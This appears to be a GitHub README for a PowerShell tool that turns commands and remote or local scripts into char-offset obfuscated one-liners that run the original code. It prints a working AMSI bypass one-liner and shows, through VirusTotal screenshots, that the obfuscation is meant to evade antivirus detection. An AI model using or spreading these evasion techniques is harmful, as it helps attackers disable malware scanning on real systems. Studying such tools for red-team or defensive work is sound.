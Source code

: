 # Invoke-Mathfuscation

![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscation.png)

A quick command line utility that converts individual characters of an input string into char values. It then takes a user-supplied number value and uses it to ofuscate the individual char values. Lastly, it outputs a simple obfuscated one-liner which will execute the original string. Currently supports:

* Remote URL (ie: http://example.com/dir/remote.ps1)
* Local File (ie: C:\tmp\local.ps1)
* PowerShell Command

When prompted, specify a command to invoke, remote URL or full local path to a .ps1 file, then supply the number offset which will be added to the char values. 

Example: 
```Write-Host "Hello world!"``` using 6000 as an offset:
```powershell
@(6087,6114,6105,6116,6101,6045,6072,6111,6115,6116,6032,6034,6072,6101,6108,6108,6111,6032,6119,6111,6114,6108,6100,6033,6034)| % {$wdAQf=$wdAQf+[char]($_-6000)};.(gcm ?e[?x])($wdAQf)
```

# VirusTotal Detections

Example: AMSI Bypass using Using Matt Graebers Reflection method:

```[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)```

Unmathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_1.pngg)

Mathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_2.png)



*Disclaimer: I'm not a programmer*

Use at your own risk! For educational purposes only. 


